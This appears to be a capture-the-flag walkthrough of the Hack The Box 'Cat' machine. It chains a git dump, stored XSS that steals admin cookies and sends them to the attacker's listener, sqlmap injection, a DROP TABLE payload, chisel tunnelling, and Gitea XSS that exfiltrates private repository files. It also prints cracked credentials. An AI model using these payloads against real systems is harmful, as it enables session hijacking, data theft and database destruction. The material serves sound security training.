## Box Info

| Name                  | Cat              | 
| :-------------------- | ---------------: |
| Release Date          | 1 Feb, 2025      |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |

```bash
sudo nmap -p 22,80 -T5 -sCV 10.10.11.53 -oN targeted                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-11 22:43 CST
Nmap scan report for 10.10.11.53 (10.10.11.53)
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://cat.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.37 seconds
```

```bash
echo "10.10.11.53 cat.htb" | sudo tee -a /etc/hosts      
10.10.11.53 cat.htb
```



registry and login

We can acces to file upload section



use git_dumper.py for get the all files from .git  directory web 





XSS Stored

we see a user



we see unsanitized input on username and email that stored directly to database



This can lead to a stored XSS attack.

```ruby
<script>alert(document.cookie)</script>
```

SQL Injection 

**accept_cat.php**

```php
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            //Vulnerable code 
            $cat_name = $_POST['catName']; //Is not sanitized
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')"; //String concatenation is used //exec() is used instead of prepared statements
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>
```

This can to be used for delete the entire table:

`catName = '); DROP TABLE accepted_cats; --`

But we need to be axel for exploit the SQL injection

**contest.php**



### XSS Blind

For exploit the sql we need to retrieve the cookie of admin, the admin is axel, so we gonna make a payload for register and send the contest for admin instant run the payload and retrieves of her cookie.

```python
<script>document.location='http://10.10.14.3:4444/?c='+document.cookie;</script>
```





(try a few times, sometimes take a large time)



F5 reload the web and i can see the new section "Admin"



Remember we have a sql injection exploit in section accept_cats.php



```bash
sqlmap -r sqli-accept_cat.req -p catName --level=5 --tables --dump --risk=3 --dbms=sqlite --threads=10
```



(For make it works we need to make to fast)









`soyunaprincesarosa`

look the log from apache2



`axel`
`aNdZwgC4tI9gnVXv_e3Q`

look the mail of axel





## Tunneling | Pivoting

```bash
chisel  server -p 5678 --reverse
```

```bash
chisel client 10.10.14.27:5678 R:3000:127.0.0.1:3000
```

login as axel with the credentials



Gitea version 1.22 has a Stored XSS exploit



Create repository

```bash
<a href="javascript:fetch('http://10.10.xx.xx:4444/?d='+encodeURIComponent(btoa(document.cookie)));">XSS test</a>
```



send email

```bash
echo -e "Subject: Test Email\n\nHello, check repo http://localhost:3000/axel/test2" | sendmail jobert@cat.htb
```



I tried to read the README.md

```bash
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.14.27:4444/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

Decrypt



Nothing interesting information


I tried to acces index.php since it is the most common path (index.php)

```ruby
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.14.27:1111/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```





Cyberchef descrypt from base64



`admin`
`IKw75eR0MR7CMIxhH0`

